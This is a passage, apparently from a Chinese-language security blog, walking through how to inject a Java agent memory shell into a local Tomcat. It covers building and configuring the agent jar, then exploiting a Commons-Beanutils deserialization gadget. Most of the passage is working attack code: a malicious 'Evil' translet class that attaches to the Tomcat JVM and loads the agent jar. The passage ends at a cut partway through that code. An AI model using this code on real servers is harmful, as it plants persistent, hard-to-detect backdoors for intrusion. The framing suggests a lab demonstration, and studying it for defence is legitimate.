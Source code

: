 然后`mvn clean`，`mvn assembly:assembly`产生`AgentMemory-1.0-SNAPSHOT-jar-with-dependencies.jar`，再修改里面的MF文件：

```java
Manifest-Version: 1.0
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Agent-Class: MyTest


```

这时候agent的jar包就OK了，我假设本地的tomcat环境下存在反序列化漏洞，引入了CB漏洞，所以拿CB漏洞打。

恶意类：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil  extends AbstractTranslet {
    static {
        try{
            java.lang.String path = "C:\\Users\\15997\\Desktop\\AgentMemory-1.0-SNAPSHOT-jar-with-dependencies.jar";
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class/*<?>*/ MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class/*<?>*/ MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List/*<Object>*/ list = (java.util.List/*<Object>*/) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM list ...");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                java.lang.String name = (java.lang.String) displayName.invoke(o,null);
                System.out.println(name);
                // 列出当前有哪些 JVM 进程在运行
                // 这里的 if 条件根据实际情况进行更改
                //org.apache.catalina.startup.Bootstrap是tomcat
                if (name.contains("org.apache.catalina.startup.Bootstrap")){
                    // 获取对应进程的 pid 号
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
                    java.lang.String id = (java.lang.String) getId.invoke(o,null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o,new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    loadAgent.invoke(vm,new Object[]{path});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
```